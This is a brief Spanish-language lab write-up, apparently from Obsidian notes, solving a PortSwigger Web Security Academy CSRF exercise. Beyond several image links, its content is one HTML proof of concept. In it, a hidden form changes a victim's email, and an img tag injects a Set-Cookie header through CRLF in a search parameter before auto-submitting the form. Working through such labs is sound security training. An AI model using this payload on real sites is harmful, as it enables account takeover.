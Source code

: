 ## Objetivo:

![[Pasted image 20240519202836.png]]

## Solucion:

![[Pasted image 20240519205520.png]]

![[Pasted image 20240519205653.png]]

![[Pasted image 20240519205738.png]]

```
<body>

<form action="https://0aca00b103b5d2ca809dade3002c0083.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="qwe@gmail.com" />

<input type="hidden" name="csrf" value="iay4jNS3H6icwodfV6N3CsvndGviDikG" />

</form>

  

<img src="https://0aca00b103b5d2ca809dade3002c0083.web-security-academy.net/?search=mibusqueda%0d%0aSet-Cookie:%20csrfKey=xO2d90ph7XmwyXUrGGPdxhiZqWO7xMKk;%20SameSite=None" onerror="document.forms[0].submit()"/>

</body>
```
